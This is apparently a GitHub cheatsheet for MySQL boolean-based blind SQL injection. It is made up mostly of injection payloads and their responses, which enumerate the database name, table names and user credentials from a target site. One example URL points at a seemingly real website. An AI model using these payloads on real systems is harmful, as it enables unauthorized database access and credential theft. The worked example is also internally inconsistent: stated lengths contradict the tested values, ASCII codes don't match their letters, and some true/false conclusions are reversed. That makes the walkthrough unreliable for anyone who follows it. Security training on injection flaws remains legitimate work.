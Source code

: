 

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Boolean%20Based%20Blind%20SQLi#mysql-boolean-based-blind-sql-injection-cheatsheet)

## Identifying the vulnerability

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Boolean%20Based%20Blind%20SQLi#identifying-the-vulnerability)

Normally in Blind SQLi, you can't really see the output of queries you enter. In this case, the only way to verify about the vulnerability, is by looking if the website loads successfuly or not/partially.

Use the following queries to identify the website behaviour:

`http://domain.com/index.php?id=1' AND 4570=4570 AND 'ZeoB'='ZeoB`  
Page fully loads successfuly.

`http://www.nttbworld.com/tour-details.php?id=65' AND 4570=4570 AND 'ZeoB'='ZeoBFalse`  
Page will partially load or it will not even load.

## Retrieving database

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Boolean%20Based%20Blind%20SQLi#retrieving-database)

**Retrieving the length of database name**

The given query will verify if database has 14 characters.  
`http://domain.com/index.php?id=1' AND (length(database())) = 15 --+`  
If website partially loads or doesn't load, it means that database is not 10 characters long.

The given query will verify if database has 9 characters.  
`http://domain.com/index.php?id=1' AND (length(database())) = 11 --+`  
Page loads successfully. Database name is 11 characters long.

**Retrieving the database name**

This method is slow, because we have to hit-or-miss for every character of the database. Let's take a look below. The below table, will help us convert ascii to string.

[![ascii_table](https://camo.githubusercontent.com/40bc4d659cd82725b32dd1bc2bc7d78d9986522701414d751d9042653b0e85c3/68747470733a2f2f7777772e61736369697461626c652e636f6d2f617363696966756c6c2e676966)](https://camo.githubusercontent.com/40bc4d659cd82725b32dd1bc2bc7d78d9986522701414d751d9042653b0e85c3/68747470733a2f2f7777772e61736369697461626c652e636f6d2f617363696966756c6c2e676966)

The given query will define is the first character of database name is 111 (o)  
`http://domain.com/index.php?id=1' AND (ascii(substr((select database()),1,1))) > 110 --+`  
Website doesn't load fully, so our condition is incorrect, let's try another ascii.

The given query will define is the first character of database name is 110 (n)  
`http://domain.com/index.php?id=1' AND (ascii(substr((select database()),1,1))) > 109 --+`  
Website loads fully, this means the first character of database is **n**.

Continue enumerate the second character of database name.

The given query will define is the first character of database name is 98 (h)  
`http://domain.com/index.php?id=1' AND (ascii(substr((select database()),2,1))) > 97 --+`  
Website doesn't load fully, so our condition is incorrect, let's try another ascii.

The given query will define is the first character of database name is 116 (t)  
`http://domain.com/index.php?id=1' AND (ascii(substr((select database()),2,1))) > 115 --+`  
Website loads fully, this means the second character of database is **t**.

Continue doing the same process over and over until you find all 11 characters.

1st character: 110 -> **n**  
2nd character: 116 -> **t**  
3rd character: 116 -> **t**  
4th character: 104 -> **h**  
5th character: 119 -> **w**  
6th character: 102 -> **f**  
7th character: 105 -> **i**  
8th character: 57 -> **9**  
9th character: 95 -> _  
10th character: 100 -> **d**  
11th character: 98 -> **b**

All 11 charachters combined together will be the database name: **ntthwfi9_db**

**Retrieving length of table name**

Given query will test the condition whether the length of string for the first table is equal than 4 or not.  
`' AND (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))) = 4 --+`

The website didn't load properly, so let's try if the length is 5 characters:  
`' AND (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))) = 5 --+`  
The website loads fully, so the length of the first table name is 5.

**NOTE:** You can enumerate the others table too, by changing the number value in this part of payload: (limit **0**,1). Simply replace it with another number. For example, let's see if 4th column has 6 characters:  
`' AND (length((select table_name from information_schema.tables where table_schema=database() limit 3,1))) = 6 --+`

**Retrieving name of table name**

On this case, I will enumerate the the first column. Let's find the first character of table:

`' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1))) > 108 --+`  
Website doesn't load properly, false response.

`' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1))) > 114 --+`  
Website doesn't load properly, false response.

`' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1))) > 116 --+`  
Website fully loads, it means the first character is ascii 117 (u).

Let's find the last character of table (5th character):

`' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 4,1) ,1,1))) > 96 --+`  
Website doesn't load properly, false response.

`' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 4,1) ,1,1))) > 105 --+`  
Website doesn't load properly, false response.

`' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 4,1) ,1,1))) > 114 --+`  
Website fully loads, it means the first character is ascii 115 (s).

Keep doing the same process for the other characters, until you find all the characters.

1st character: 110 -> **u**  
2nd character: 115 -> **s**  
3rd character: 101 -> **e**  
4th character: 114 -> **r**  
5th character: 115 -> **s**

All 5 charachters combined together will be the first table name: **users**

**Retrieve length of column name**

Using the same method as before, enumerate the length of column name.

Given below query will test for string length is equal to 6 or not:  
`' AND (length((select username from users limit 0,1))) = 6 --+`  
Website doesn't load properly, column is not 6 characters long.

Given below query will test for string length is equal to 4 or not:  
`' AND (length((select username from users limit 0,1))) = 4 --+`  
Website fully loads, column is 6 characters long.

Using the same method, you can also enumerate other columns.

Enumerate the length of second column if it is 6 or not:  
`' AND (length((select username from users limit 1,1))) = 6 --+`

Enumerate the length of third column if it is 5 or not:  
`' AND (length((select username from users limit 2,1))) = 5 --+`

And so on...

**Retrieve column name**

Since we know the length of column name is 4, let's find out the characters one by one.

Given below query will test if the first character of the first column name is ascii 101 (e):  
`' AND (ascii(substr((select username from users limit 0,1) ,1,1))) > 100 --+`  
Website doesn't load properly, first char is not **e**.

Given below query will test if the first character of the first column name is ascii 112 (p):  
`' AND (ascii(substr((select username from users limit 0,1) ,1,1))) > 111 --+`  
Website doesn't load properly, first char is **p**.

Given below query will test if the second character of the first column name is ascii 97 (a):  
`' AND (ascii(substr((select username from users limit 1,1) ,1,1))) > 96 --+`  
Website doesn't load properly, second char is **a**.

Given below query will test if the third character of the first column name is ascii 115 (s):  
`' AND (ascii(substr((select username from users limit 2,1) ,1,1))) > 114 --+`  
Website doesn't load properly, third char is **s**.

Given below query will test if the fourth character of the first column name is ascii 115 (s):  
`' AND (ascii(substr((select username from users limit 3,1) ,1,1))) > 114 --+`  
Website doesn't load properly, fourth char is **s**.

1st character: 110 -> **p**  
2nd character: 97 -> **a**  
3rd character: 115 -> **s**  
4th character: 115 -> **s**

All 4 charachters combined together will be the column table name: **pass**